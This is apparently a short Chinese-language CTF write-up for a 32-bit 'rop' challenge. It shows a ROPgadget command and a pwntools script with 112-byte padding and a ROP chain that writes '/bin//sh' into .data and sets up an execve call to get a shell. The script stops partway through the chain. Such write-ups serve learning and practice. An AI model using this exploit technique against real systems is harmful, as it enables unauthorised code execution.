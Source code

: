 ## rop

- one_gadgets

![image-20240115132428755](../assets/img/old_imgs/image-20240115132428755.png)

第一眼函数很多,什么都没有,但拨云见雾,不过如此

1. 通过`ROPgadgets`得到`ropchain`
2. 构造`payload`得到`shell`

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ ROPgadget --binary rop --ropchain
```

```python
from pwn import *
from struct import pack
io = process('./rop')
padding = b'A'*112
# Padding goes here
p = b''

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080bb196) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080bb196) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x0806eb91) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8

p += pack('<I', 0x080ea060) # padding without overwrite ebx

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
```